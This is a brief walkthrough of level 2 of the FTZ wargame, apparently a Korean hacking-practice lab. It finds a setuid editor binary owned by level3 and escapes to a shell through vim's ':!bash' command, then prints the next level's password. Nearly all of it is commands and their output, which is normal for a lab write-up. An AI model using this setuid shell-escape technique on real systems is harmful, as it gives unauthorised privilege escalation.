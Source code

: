 # Level2

## This level's goal

- Run the command in vi/vim editor

***

```
[level2@ftz level2]$ cat hint

텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
```
```
[level2@ftz level2]$ find / -user level3 -perm -4000 2>/dev/null
/usr/bin/editor
```

```
[level2@ftz level2]$ ls -l /usr/bin/editor
-rwsr-x---    1 level3   level2      11651 Aug 19  2014 /usr/bin/editor
```

```
[level2@ftz level2]$ which vi
alias vi='vim'
        /usr/bin/vim
```

```
[level2@ftz level2]$ ls -l /bin/vi
-rwxr-xr-x    1 root     root       456108 Feb 12  2003 /bin/vi
```

```
[level2@ftz level2]$ ls -l /usr/bin/vim`
-rwxr-xr-x    1 root     root      1893740 Feb 12  2003 /usr/bin/vim
```

```
[level2@ftz level2]$ /usr/bin/editor

:!id

uid=3003(level3) gid=3002(level2) groups=3002(level2)

Hit ENTER or type command to continue

:!bash
```

```
[level3@ftz level2]$ my-pass

Level3 Password is "can you fly?".
```
